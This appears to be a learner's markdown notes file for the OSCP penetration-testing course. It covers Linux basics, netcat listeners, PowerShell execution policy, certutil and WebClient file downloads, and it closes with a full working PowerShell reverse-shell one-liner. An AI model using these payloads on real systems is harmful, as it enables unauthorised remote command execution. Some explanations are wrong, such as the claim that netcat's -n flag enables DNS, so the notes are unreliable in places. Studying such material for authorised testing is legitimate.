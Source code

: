 # OSCP Notes

The course first focuses on basic linux commands and navigation using command line.
I'll just put some important ones on here and then we'll move onto the pentesting section of this course because that is honestly the only thing I am excited about.

* With `ps` command you can see the current processes
* With `kill` command you can kill a pariticular process.
* With `wget` command you can download a file from a remote web browser
* With `curl` command you can download manipulate http requests and modify them on the go


# Customizing the bash enviornment 
*Alias* is a string we can define which can replace the command name. By doing 
```bash
alias lsa="ls -la"
```
We can define lsa as ls -la.

# Netcat

It can be run in two modes => client or server.

## Client Mode

we can connect to a tcp port by using client mode.

```bash
nc -n -v $(ip)
```
* -n tells the netcat to use the dns resolution
* -v tells the netcat to run in verbose mode

## Server Mode

```bash
nc -nvlp $(port)
```
This will open the listner.

```bash
nc -nv $(ip) $(port) 
```

It can also be used to transfer files, open reverse shell and much more.

# PowerShell
It maintains an execution policy which describes which powershell scipts can be run and which cannot be.
By default it is restricted.
You can unrestrict is by using the following the command

```ps1
Set-ExecutionPolicy Unrestricted
```
And you can check it by the following command

```ps1
Get-ExecutionPolicy
```
## Transfer file using powershell

* ```ps1
powershell -c "(new-object System.Net.WebClient).DownloadFile('$(source localtion)', '$(targetlocation)')"
```
* ```ps1
certutil -urlcache -f "$(source location)" $(filename)
```


# Powershell reverse Shell

```ps1
$client = New-Object System.Net.Sockets.TCPClient('$(ip)',$(port));$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

















